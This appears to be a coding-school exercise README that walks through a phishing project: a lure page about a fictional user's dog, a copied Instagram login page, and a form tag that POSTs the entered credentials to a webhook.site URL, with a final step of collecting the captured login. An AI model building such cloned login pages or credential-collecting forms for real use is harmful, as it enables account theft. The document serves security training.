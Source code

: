 # Phishing Project

## Introduction

There are different types of phishing, however, many of them are based on the reproduction of a web document, to do this it is necessary to use different programming languages and tools.

### Challenge

- Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. 
- Your mission will be to obtain Bob's password of some platform of your choice.


___________________________________________________________

## Table of content

 - [Creating the webpage with HTML and CSS](#Creating-the-webpage-with-HTML-and-CSS)

- [Recreating Instagram Log-in page](#Recreating-Instagram-Log-in-page)

- [WebHook](#Collecting-data-with-WebHook)

- [Script with JavaScript](#JavaScript-is-the-last-step)


#### **_NOTE: The exercise has been done entirely with VScode and then tested on Brave browser._** 


#### Inspiration from [Zphisher Tool.](https://github.com/htr-tech/zphisher "https://github.com/htr-tech/zphisher") 


______________________________________________________________________


### Creating the webpage with HTML and CSS

An HTML webpage is built using a combination of HTML (Hypertext Markup Language) and CSS (Cascading Style Sheets) to define the structure and presentation of the content.


#### Steps to create the phishing webpage:

- Doctype declaration (`<!DOCTYPE html>`) to specify the HTML version.
- Opening and closing `<html>` tags to enclose the HTML document.
- `<head>` section containing metadata such as character encoding, viewport settings, title, and external CSS stylesheets.
- Opening and closing `<body>` tags to contain the visible content of the webpage.
- `<div>` elements with classes "container" and "text-area" for organizing content.
- Heading elements (`<h1>`, `<h2>`, `<h3>`) for displaying different levels of headings.
- `<img>` tag to display an image.
- `<ul>` (unordered list) with `<li>` (list item) elements to create a bulleted list.
- `<button>` element with a class "call-to-action" and an anchor (`<a>`) element inside for creating a clickable button.
- Anchors (`<a>`) with href attributes to create links to other pages.

Additionally, the file references resources such as an image file ("Shimi-terrier.jpg"), a favicon image ("pedigree-logo.png"), and a CSS file ("style.css") for styling the webpage.

Here to see the codes.  ------>   [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/phising.html) 

#### Putting some style with CSS

The HTML file itself without the "styling" from the CSS  it would look so chaotic, so I wrote down some lines in order to customize a bit the webpage.

Here you can find the CSS file if you are curious to see.     ----->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/style.css)


#### And here is the final result of our phishing page
![IMAGE of the HTML page](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/HTML-final.png)


________________________________

### Recreating Instagram Log-in page

##### Once you set up the HTML (with its CSS)
In my case I have created an html that works as an initial phishing webpage, with it a **"call to action"** button to redirect to a landing page that is a copy of Instagram Log-in page.

I managed to have a copy of the HTML and CSS of Instagram Log-In page through [CODEPEN.IO](https://codepen.io/azamatmj/pen/LdrMXv)

Looks pretty much the same as the original Instagram Log-In page, but I had to add the Header tag in the HTML in order to implement: Logo on the tab browser, link it with its CSS and finally in its body a  Script with JS (for the [WebHook]()).

Here is the HTML            ------->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/log-in.html) 

Here is the CSS                ------->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/log-in.css) 


##### Try to find the difference with the original site
[PHOTO OF THE LOG-IN PAGE](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/Log-In.png)


______________________________________


### Let's make it work now!

##### Collecting data with WebHook
To gather the information that our victim Bob is typing in order to log-in into Instagram to get in contact with Pedigree Team, we will be using [WebHook](https://webhook.site/)

Webhook.site, **an HTTP-based callback function that allows lightweight, event-driven communication between 2 application programming interfaces (APIs).** Webhooks are used by a wide variety of web apps to receive small amounts of data from other apps, but webhooks can also be used to trigger automation workflows in GitOps environments.

Once we get into the site, we will be given a unique URL  which we will need to insert in the HTML file, precisely in the "form" tag (in line 25) in order to communicate with the site:

```
<form id="myForm" action="https://webhook.site/1094a4f8-3820-40c4-9a7e-78383e181346" method= "POST" class="form">
```

__________________________________________


### Almost done!

##### JavaScript is the last step
We will need to finish with a script so we can make the Log-In webpage work and act like the real one and to make it **not redirect to the WebHook site** once the form is filled.


Finally we will insert before the closing tag of the body of our HTML file:
```
<script src="script.js"></script>
```
in order to implement it in the webpage.



Here is the JavaScript            ------->    [LINK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/Phishing-Bob/script.js) 

_______________________________________


### Done!

Finally we can test it. Once filled the form and clicked on "log in", we can visit our WebHook site and we will find the credentials needed!

[PHOTO OF WEBHOOK](https://github.com/Crucius96/Becode-Projects/blob/master/Phishing%20Chapter/Phishing%20Exercise/imgs/webhook.png)
